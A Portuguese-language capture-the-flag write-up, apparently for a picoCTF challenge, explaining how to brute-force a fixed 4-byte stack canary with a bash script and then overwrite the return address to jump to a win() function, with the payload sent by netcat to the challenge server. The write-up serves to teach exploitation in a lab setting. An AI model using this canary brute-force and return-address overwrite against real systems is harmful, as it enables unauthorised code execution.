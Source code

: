 Neste desafio, temos um *stack canary*, um mecanismo de verificação de integridade da stack.

O stack canary geralmente é um recurso adicionado pelo próprio compilador e consiste em gerar bytes aleatórios e posicioná-los na stack.

Caso ocorra *stack smashing*, ou seja, caso a stack seja sobrescrescrita por algum buffer overflow, esses bytes aleatórios serão alterados, o programa saberá que foi modificado e se fechará.

![](/Screenshots/Pasted%20image%2020220329113131.png)

Porém, neste caso, o canary (os bytes adicionados à stack) não é aleatório e é pequeno (4 bytes, conforme é possível ver no código), o que possibilita um ataque de brute force.

![](/Screenshots/Pasted%20image%2020220329113219.png)

Como o buffer tem 64 bytes, podemos escrever 64 bytes e os próximos serão comparados com o canary. É possível ver que ao mudar o 65º byte (que já está sobrescrevendo o canary), podemos descobrir qual é o seu valor real. Caso o valor esteja errado, ele retorna um erro. Caso contrário, ele retorna "Ok".

![](/Screenshot/Pasted%20image%2020220329115247.png)

Podemos facilmente fazer um script de brute force em bash:

```bash
#!/bin/bash

#bufsize + first byte from canary
bytes=64
aux=$(($bytes - 64))
#define BUFSIZE 64
size=$(($bytes-$aux))

echo "[*] Bruteforcing canary..."
#fill all the buffer
for x in 1 1 1 1; do
	bytes=$(($bytes + $x))
	buf=$(for i in `seq $size`; do echo -n "A";done)
	for((i=32;i<127;i++)); do
		current_canary=$(printf "\\$(printf %03o "$i")")
		payload=${buf}${old_canary}${current_canary}
		result=$(echo -ne "$bytes\n$payload" | ./vuln)
	#	result=$(echo -ne "$bytes\n$payload" | nc saturn.picoctf.net 49980)
		if [ "$(echo -n $result | grep Ok)" ]; then
			old_canary=${old_canary}${current_canary}
			echo $old_canary
			echo ${buf}${old_canary}
			break
		fi
	done
done

echo -e "[*] End bruteforcing. Canary found: $old_canary"
```

Ele nos retorna o canary contido no canary.txt do servidor. Uma vez descoberto, basta usarmos-no após os 64 bytes do buffer. Dessa forma, o canary não será alterado e poderemos escrever após ele mantendo sua integridade.

Depois disso, basta adicionarmos mais 16 bytes de padding e podemos controlar o EIP ao sobrescrever o endereço de retorno.

Como a função `win()` está no endereço `0x08049336`, é para ele que apontaremos o EIP. Isso pode ser feito no próprio script:
```bash
payload=$(echo 100;for i in `seq 64`; do echo -n "A";done; echo -n $old_canary; echo -n "16BytesOfGarbage"; echo -ne "\x36\x93\x04\x08")
echo -ne "$payload" | nc saturn.picoctf.net 54738
```
![](/Screenshots/Pasted%20image%2020220317130925.png)

